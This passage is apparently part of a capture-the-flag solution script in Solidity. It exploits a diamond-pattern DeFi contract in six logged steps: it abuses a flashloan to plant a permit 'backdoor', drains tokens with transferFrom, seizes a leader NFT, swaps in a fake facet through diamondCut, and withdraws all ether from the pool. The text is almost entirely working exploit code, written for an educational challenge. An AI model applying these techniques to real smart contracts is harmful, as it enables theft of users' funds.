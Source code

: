 ```solidity
        console2.logUint(ERC20(devToken).balanceOf(attacker));

        console2.log("================== Step 3 ==================");
        (uint8 v, bytes32 r, bytes32 s, uint256 deadline) = permitForDevToken(address(diamond), 3, true);
        // we deposit the 3 devtokens needed for the flashloan
        IPoolFacet(payable(address(diamond))).deposit(3);
        address spender = attacker;
        uint256 value = devToken.balanceOf(address(diamond));
        // we create the payload asking the flashloan function to permit us
        (v, r, s, deadline) = permitForDevToken(attacker, value, false);
        bytes memory payload = abi.encodeWithSignature(
            "permit(address,address,uint256,uint256,uint8,bytes32,bytes32)",
            attacker,
            spender,
            value,
            deadline,
            v,
            r,
            s
        );
        // setup the backdoor for us, so even after the flashloan (of 0 tokens) we will have the rights to transfer the tokens
        IPoolFacet(payable(address(diamond))).flashLoan(0, attacker, address(devToken), payload);
        // now lets use the backdoor and transfer all tokens into our account
        ERC20(devToken).transferFrom(address(diamond), attacker, value);
        console2.log("DevToken attacker balance after using the backdoor:");
        console2.logUint(ERC20(devToken).balanceOf(attacker));

        console2.log("================== Step 4 ==================");
        // lets get the DevLead NFT by refreshing the leader
        IRefreshLeaderFacet(payable(address(diamond))).refreshLeader(attacker);
        console2.log("Attacker is the leader:");
        console2.logBool(devLead.isLeader(attacker));

        console2.log("================== Step 5 ==================");
        FakeFacet ourFakeFacetContract = new FakeFacet();
        bytes4[] memory funSelectors = new bytes4[](1);
        funSelectors[0] = ourFakeFacetContract.play.selector;

        IDiamondCut.FacetCut[] memory cuts = new IDiamondCut.FacetCut[](1);
        cuts[0] = IDiamondCut.FacetCut({
            facetAddress: address(ourFakeFacetContract),
            action: IDiamondCut.FacetCutAction.Replace,
            functionSelectors: funSelectors
        });
        // so after this diamond cut, in OnlyPlayFacet:
        //      bytes4 selector = bytes4(keccak256("play(uint256)"));
        //      address playFacet = IDiamondLoupe(diamond).facetAddress(selector);
        // will become our contract, then our contract will be able to call the transferFunds function directly from the deployed contract PoolFacet
        IDiamondCut(address(diamond)).diamondCut(cuts, address(0), "");
        console2.log("Deployed new fake facet & replacing the moneygamefacet.play function => Success!");

        console2.log("================== Step 6 ==================");
        // lets just withdraw every ether from poolfacet contract
        uint256 balance = address(poolFacet).balance;
        ourFakeFacetContract.withdrawAll(address(poolFacet), balance);

        console2.log("Is challenge solved?");
        console2.logBool(setupContract.isSolved());
        vm.stopBroadcast();
```